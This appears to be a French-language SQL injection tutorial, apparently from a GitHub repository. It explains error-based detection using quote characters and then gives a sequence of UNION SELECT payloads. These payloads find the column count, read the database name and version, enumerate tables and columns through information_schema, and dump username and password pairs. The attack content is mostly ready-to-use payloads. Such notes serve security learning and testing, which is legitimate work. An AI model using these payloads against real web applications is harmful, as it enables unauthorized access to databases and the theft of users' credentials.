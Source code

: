 Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

## Rechercher
La clé pour découvrir l'injection SQL basée sur les erreurs est de: 
- Casser la requête SQL du code en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent d'un simples (`'`) ou de guillemets (`"`)

> Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

---
###### Injection sur UNION
Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.



**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Cette instruction produit un message d'erreur vous informant que _l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine._ 

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```


**2 - Afficher nos données**
Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**
On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}
```
